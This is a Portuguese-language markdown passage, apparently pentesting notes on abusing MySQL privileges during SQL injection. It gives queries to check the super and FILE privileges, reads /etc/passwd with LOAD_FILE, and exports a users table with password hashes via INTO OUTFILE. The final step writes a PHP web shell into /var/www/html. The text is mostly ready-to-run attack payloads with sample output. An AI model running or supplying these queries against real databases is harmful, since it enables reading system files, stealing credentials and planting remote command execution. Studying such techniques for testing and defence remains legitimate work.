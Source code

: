 Podemos testar se nosso usuário tem `super` privilégios.
```sql
SELECT super_priv FROM mysql.user;
```

Também podemos ver quais usuários tem quais privilégios, e se quisermos podemos filtrar pelo usuário que queremos.
```sql
SELECT grantee,privilege_type FROM information_schema.user_privileges WHERE grantee="root@localhost";
```
***
# Arquivos
Caso algum usuário apresente a permissão `FILE`, podemos usa-lo para ler  e editar arquivos do sistema. O usuário deve ter permissão para fazer tal operação no sistema host, para escrever também é necessário que a variável global `secure_file_priv` não esteja habilitada.
#### Lendo arquivos
Usamos a função `LOAD_FILE()` para recuperar o conteúdo de algum arquivo.
```sql
SELECT LOAD_FILE('/etc/passwd');
```
#### Verificando `secure_file_priv`
Primeiro verificamos se a variável `secure_file_priv` está desabilitada.
```sql
SHOW VARIABLES LIKE 'secure_file_priv';
```

Para usarmos como o `UNION` devemos usar a declaração `SELECT`. As variáveis globais ficam armazenadas em `information_schema.global_variables` que detém 2 campos `variable_name` e `variable_value`;
```sql
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv";
```
#### Escrevendo nos arquivos
Podemos usar a declaração `SELECT INTO OUTFILE` para escrever nos arquivos.
```sql
SELECT * FROM users INTO OUTFILE '/tmp/credentials';
```
E então podemos verificar se o arquivo foi criado.
```bash
[~] cat /tmp/credentials

1       admin   392037dbba51f692776d6cefb6dd546d
2       newuser 9da2c9bcdf39d8610954e0e11ea8f45f
```

Também podemos selecionar uma string anexarmos em algum arquivo.
```sql
SELECT 'This is a test !!!' INTO OUTFILE '/tmp/test.txt';
```

Podemos então criar uma shell `PHP` para ser executada.
```sql
SELECT '<?php system($_REQUEST[0]); ?>' INTO OUTFILE '/var/www/html/shel.php';
```
